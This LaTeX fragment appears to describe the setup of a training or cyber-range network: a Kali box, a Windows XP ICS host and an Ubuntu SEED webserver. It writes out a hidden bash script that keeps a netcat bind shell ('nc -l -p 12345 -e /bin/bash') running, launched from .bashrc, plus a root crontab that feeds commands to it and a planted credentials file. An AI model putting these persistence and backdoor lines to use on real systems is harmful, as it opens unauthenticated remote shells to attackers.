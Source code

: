 \documentclass[12pt]{extarticle}
\begin{document}
\begin{Large}
\begin{itemize}
The following was added to the .bashrc in the mini-kali inside the android:
service ssh start > /dev/null
route add -net 98.43.26.5 netmask 255.255.255.255 dev eth1
route add -net 0.0.0.0 gw 192.168.5.1 dev eth0
\item System Admin: Kali 4.6 with TightVNC, the following added to the .bashrc,:
\begin{lstlisting}[numbers = left, breaklines = true, frame = single]
ifconfig eth0 192.168.2.3 up
route add -net 0.0.0.0 gw 192.168.2.1 dev eth0
/root/testscript.plsignore.pls > /dev/null &  and hidden file with:
\end{lstlisting}
the following added to a file called testscript.plsignore.pls:
\begin{lstlisting}[numbers = left, breaklines = true, frame = single, language = bash]
#!/bin/bash
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/root/
while true; do
	if netstat -l | grep '12345'
	  then echo
	  else nc -l -p 12345 -e /bin/bash
	fi
done
\end{lstlisting}
and a file containing the credentials to an operator account on VyOS
\item ICS: Windows XP Professional with Service pack 1
\item Webserver: Ubuntu 16.04 SEED with a root level crontab command,:
\begin{lstlisting}[numbers = left, breaklines = true, frame = single]
* * * * * echo "/bin/echo 'boop' >> /root/log.log" | nc 192.168.2.3 12345
\end{lstlisting}
and the modified sshd\_config file (file included as sshdconfig.txt
\end{itemize}
\end{Large}
\begin{figure}[H]
	\includegraphics[width=\linewidth]{NetworkMap.jpg}
    \caption{Network Map Layer 1}
    \label{fig:NetworkMap}
\end{figure}
\end{document}
